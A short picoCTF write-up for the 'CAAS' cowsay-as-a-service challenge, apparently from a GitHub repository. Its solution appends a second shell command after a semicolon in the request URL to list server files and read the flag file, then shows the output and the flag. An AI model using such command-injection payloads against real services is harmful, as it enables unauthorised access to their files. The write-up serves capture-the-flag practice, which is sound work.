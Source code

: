 # CAAS

## Problem

Now presenting cowsay as a service

## Solution

`https://caas.mars.picoctf.net/cowsay/test;%20ls`

output:

```
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
```

`https://caas.mars.picoctf.net/cowsay/test;%20cat%20falg.txt`

FLAG: `picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}`